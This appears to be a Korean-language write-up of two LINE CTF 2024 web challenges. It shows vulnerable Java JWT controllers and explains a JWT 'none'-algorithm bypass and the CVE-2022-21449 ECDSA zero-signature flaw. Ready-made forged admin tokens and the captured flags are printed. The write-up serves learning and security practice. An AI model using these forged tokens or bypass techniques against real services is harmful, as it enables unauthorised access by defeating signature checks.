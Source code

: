 ```yaml
---
title: "LINE CTF 2024 Write up"
date: 2024-03-26 +0900
categories: [WRITE-UP]
tags: ['writeup', 'line ctf', '2024']
image:
    path: "/assets/img/posts/linectf2024writeup/Untitled.png"
    alt: "Line CTF"
    lqip: "/assets/img/posts/linectf2024writeup/Untitled.png"
---
```



## jalyboy-baby [web]
- _Solver : 428_
- _Score : 100_

### 1. Abstract

- JWT None Algorithm Attack

### 2. Analysis

- 문제 페이지에서는 j 라는 파라미터를 통해 JWT 값을 전송하고 있음
- 파라미터로 전송받은 JWT 값을 파싱 및 `claims` 에 저장
- `claims` 에서 `getSubject()` 를 통해 `sub` 값을 비교하여 분기한다.
- `sub` 값이 `admin` 이라면 flag 값을 model에 포함시킨다.

```java
@Controller
public class JwtController {

    public static final String ADMIN = "admin";
    public static final String GUEST = "guest";
    public static final String UNKNOWN = "unknown";
    public static final String FLAG = System.getenv("FLAG");
    Key secretKey = Keys.secretKeyFor(SignatureAlgorithm.HS256);

    @GetMapping("/")
    public String index(@RequestParam(required = false) String j, Model model) {
        String sub = UNKNOWN;
        String jwt_guest = Jwts.builder().setSubject(GUEST).signWith(secretKey).compact();

        try {
            Jwt jwt = Jwts.parser().setSigningKey(secretKey).parse(j);
            Claims claims = (Claims) jwt.getBody();
            if (claims.getSubject().equals(ADMIN)) {
                sub = ADMIN;
            } else if (claims.getSubject().equals(GUEST)) {
                sub = GUEST;
            }
        } catch (Exception e) {
//            e.printStackTrace();
        }

        model.addAttribute("jwt", jwt_guest);
        model.addAttribute("sub", sub);
        if (sub.equals(ADMIN)) model.addAttribute("flag", FLAG);

        return "index";
    }
}
```
{: file="JwtController.java" }

### 3. Exploit

JWT 값은 `j` 파라미터를 통해 보내줄 수 있다. 따라서 이 JWT 값을 다시 생성해서 보낼 수 있다.

```json
{
	"alg" : "None"
}

{
	"sub" : "admin"
}
```

현재 JWT 알고리즘은 HS256을 사용하고 있지만, JWT를 생성할 수 있으므로 `alg` 를 `None` 으로 변경하여 서명 검증을 우회할 수 있다.  `sub` 가 admin이 되어 flag를 얻을 수 있다.

```plain
eyJhbGciOiJub25lIiwidHlwIjoiSldUIn0.eyJzdWIiOiJhZG1pbiJ9.
```

![Untitled](/assets/img/posts/linectf2024writeup/Untitled%201.png)

> Flag : `LINECTF{337e737f9f2594a02c5c752373212ef7}`
<br>

## jalyboy-jalygirl [web]
- _Solver : 189_
- _Score : 100_

### 1. Abstract

- CVE-2022-21449

### 2. Analysis

jalyboy-baby 문제와 대부분 같지만, 서명 알고리즘은 `ES256` 을 사용하고 있다. 

```java
@Controller
public class JwtController {

    public static final String ADMIN = "admin";
    public static final String GUEST = "guest";
    public static final String UNKNOWN = "unknown";
    public static final String FLAG = System.getenv("FLAG");
    KeyPair keyPair = Keys.keyPairFor(SignatureAlgorithm.ES256);

    @GetMapping("/")
    public String index(@RequestParam(required = false) String j, Model model) {
        String sub = UNKNOWN;
        String jwt_guest = Jwts.builder().setSubject(GUEST).signWith(keyPair.getPrivate()).compact();

        try {
            Jws<Claims> jwt = Jwts.parser().setSigningKey(keyPair.getPublic()).parseClaimsJws(j);
            Claims claims = (Claims) jwt.getBody();
            if (claims.getSubject().equals(ADMIN)) {
                sub = ADMIN;
            } else if (claims.getSubject().equals(GUEST)) {
                sub = GUEST;
            }
        } catch (Exception e) {
//            e.printStackTrace();
        }

        model.addAttribute("jwt", jwt_guest);
        model.addAttribute("sub", sub);
        if (sub.equals(ADMIN)) model.addAttribute("flag", FLAG);

        return "index";
    }
}
```
{: file="JwtController.java" }


### 3. Exploit

해당 문제는 JAVA의 ESDSA 서명 검증 알고리즘에 대한 구현 오류로 인해 취약점이 발생한다. 서명 검증에 필요한 r, s 의 값이 0인지 검증을 하지 않기 때문에 0인 서명 값을 생성할 수 있고, 이를 통해 모든 공개키에 대해서 항상 유효한 서명이 된다.

```java
eyJhbGciOiJFUzI1NiJ9.eyJzdWIiOiJhZG1pbiJ9.MAYCAQACAQA=
```

![Untitled](/assets/img/posts/linectf2024writeup/Untitled%202.png)

> Flag: `LINECTF{abaa4d1cb9870fd25776a81bbd278932}`
> 

### Reference

> [https://neilmadden.blog/2022/04/19/psychic-signatures-in-java/](https://neilmadden.blog/2022/04/19/psychic-signatures-in-java/)

> [https://www.linkedin.com/pulse/elliptic-curve-digital-signature-algorithm-flaw-mohammed-janbar/](https://www.linkedin.com/pulse/elliptic-curve-digital-signature-algorithm-flaw-mohammed-janbar/)
